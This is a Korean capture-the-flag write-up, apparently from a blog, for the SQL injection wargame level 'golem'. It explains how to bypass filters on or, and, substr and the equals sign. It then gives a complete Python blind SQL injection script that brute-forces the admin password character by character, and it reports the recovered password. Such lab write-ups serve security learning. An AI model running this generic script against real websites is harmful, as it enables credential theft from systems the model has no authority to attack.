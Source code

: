 

# [11] golem

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fde8A6H%2FbtrniTeLG61%2Fp8roAQzC5qnjr2AfgsXGW1%2Fimg.png">

## 풀이

이번 문제에서는


① or/and

② substr(

③ =


를 필터링하고 있다.

<br>

또한 근본적으로는 pw를 알아야 풀 수 있는 Blind SQLi 문제이다. (∵ addslashes) 

이전에 써먹었던 **자동화 코드**에 **필터링 우회**를 적용해주면 될 것 같다.

<br> 

먼저, 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.


```python
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```


① or ⇒ \|\|

② and ⇒ %26%26

③ = ⇒ like (문자열 일치 확인)

④ = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 ⇒ {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```


① or ⇒ \|\|

② and ⇒ %26%26

③ substr( ⇒ substring(

④ = ⇒ like (문자열 일치 확인)

⑤ = ⇒ > (ASCII 대소 비교)

- 마찬가지로, 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

**수정된 Python 자동화 코드의 전문**은 다음과 같다.


```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FHcecl%2FbtrnkxIU6Hk%2FwUsmDKLf63bp6zlHii4aZ0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `77d6290b` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbHY8zw%2FbtrnkvRSuaC%2FiiZqhAuhNLq6tKpRIWSj20%2Fimg.png">
